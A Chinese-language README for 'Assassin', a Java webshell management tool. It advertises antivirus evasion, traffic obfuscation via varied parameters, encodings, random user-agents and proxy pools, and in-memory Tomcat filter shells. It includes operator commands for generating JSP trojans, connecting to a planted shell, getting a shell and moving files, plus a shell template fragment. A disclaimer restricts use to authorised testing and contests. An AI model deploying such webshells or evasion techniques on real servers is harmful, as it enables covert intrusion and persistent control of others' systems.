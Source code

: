 # Assassin

>Assassin是一款精简的基于命令行的webshell管理工具，它有着多种payload发送方式和编码方式，以及精简的payload代码，使得它成为隐蔽的暗杀者，难以被很好的防御。

工具短小精悍，生成的webshell能够过常见杀软，尽量减少了连接后交互的流量特征，具体payload发送方式均可自定义。由于个人精力有限，~~因为懒而且菜~~，服务端暂时仅支持Java。

**声明：主要面向网络安全人员已授权的合法渗透或学生AWD等比赛使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担**

## 特点

**[1]** 生成的webshell能过常见杀软(webshell模板可以自定义修改)

**[2]** webshell仅1kb大小，客户端与服务端同类通信仅需加载一次字节码，后续流量只传送命令。

**[3]** payload能够以get、post、cookie、mixed四种方式发送，可动态修改，流量迷惑性较强

**[4]** 客户端与服务端交互流量支持多种编码方式，可动态修改

**[5]** payload发送的参数名以及数量均可自定义，支持随机ip代理和user-agent

## 软件截图

软件类似于MSF的操作模式

![](assets/2021-11-23-14-26-25.png)

![](assets/2021-11-23-16-26-42.png)

![](assets/2021-11-23-16-47-25.png)


## 发送的payload流量示例

![](assets/2021-11-23-18-26-04.png)

cookie：
![](assets/2021-11-23-16-51-06.png)

post：
![](assets/2021-11-23-17-08-53.png)

mixed：
![](assets/2021-11-23-17-12-14.png)

get：
![](assets/2021-11-23-17-18-56.png)

除了cookie方式，get、post、mixed可以在已经建立连接后动态修改发送方式，无需更改服务端

请求编码：
1. base64
2. base36
3. hex

响应编码：
1. base64
2. raw
3. base36
4. hex

其中响应的编码方式可以动态修改

## 使用教程

### 适用版本

服务端：jre 1.5及以上

客户端：jdk 1.8及以上

### 配置文件

```json lines
{
  "paramNames": ["user", "file", "id", "eid", "wd", "ie", "oq", "name", "son"],
  // get、post、mixed请求参数名的随机池
  "cookieNames": ["fid", "uuid", "eid", "home", "ief", "fl", "oop"],
  // cookie请求参数名的随机池
  "headers":{
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"Accept-Language: zh-CN,zh;q=0.9",
    "Upgrade-Insecure-Requests": "1"
  },
  // http头部
  "partNum": 3,
  // payload首次发送的分块数量
  "argNum": 5,
  // 每次请求的参数个数，不能超过paramNames或者cookieNames的参数个数
  "startRandomUserAgent": false,
  // 是否随机useragent
  "startIpAgents": false,
  // 是否开启ip池代理模式
  "startColor": true
  // 是否启用命令行颜色
}
```

随机useragent采用./useragents.txt里的useragent，开启后每次请求都会更换useragent，一般配合ip代理使用，关闭时是每次用session命令启动一个webshell会话一个useragent。

ip代理池使用./ipagents.txt，格式为```ip:posr;username:password```，不需要认证的话```ip:port```就可以了，开启后每次请求会从中选择一个代理。

**Tip：windows用户启动后乱码请关闭"startColor"，或者使用Windows Terminal启动**

### 帮助信息

所有命令使用都比较简单，可以通过help命令查看参数

![](assets/2021-11-23-19-52-59.png)

```help [command]``` 查看具体命令的帮助

![](assets/2021-11-23-19-53-56.png)

### 实例

用startup.bat或startup.sh启动

```bash
new java 123 cookie
# 生成密码为123 发送方式为cookie的普通jsp木马
new java pass post reqEncode=base36 tamper=tomcat9_filter
# 生成密码为pass 发送方式为post 请求用base36编码的tomcat9 filter内存马 
```
**Tips：add和new命令参数比较多，中括号包裹的可选参数还可以用key=value的方式赋值**

之后会弹出窗口选择保存位置

![](assets/2021-11-23-20-00-26.png)

将webshell上到目标服务器

```bash
add http://192.168.48.130:8080/1.jsp 123 java method=cookie resEncode=base36
# 添加webshell 密码123 java马 cookie传参 请求编码默认base64 响应编码base36
```
```show```查看ID号
![](assets/2021-11-23-20-06-56.png)

```session 1```连接webshell

![](assets/2021-11-23-20-08-19.png)

看到提示符发生变化就可以执行webshell controller commands的命令了！
```bash
Assassin|java >getshell
Assassin|java|C:\apache-tomcat-9.0.54\bin >dir
```

上传文件

```bash
upload # 没参数默认传到当前目录
```

![](assets/2021-11-23-20-25-16.png)

选择文件即可上传

```download ./test.txt```同理

![](assets/2021-11-23-20-27-15.png)

![](assets/2021-11-23-20-28-04.png)

### 编写webshell模板tamper

![](assets/2021-11-23-20-14-14.png)

第一个部分用{@key}填充，代表 webshell密码

第二个部分用{@getvalue}填充，代表 获取请求payload的代码

第三个部分用{@decode}填充，代表 解码代码

模板如下：

```java
String k="{@key}";// aes密钥 123456 md5的前16位
String r = ""; //密文payload存放位置，这个参数名必须为r，其他的无所谓
// 取密文
{@getvalue}
byte[] cText = {@decode};
```

其他主要逻辑不改，就可以成功连接。

**实例**

请看webshell/java/下的tomcat的filter内存马模板







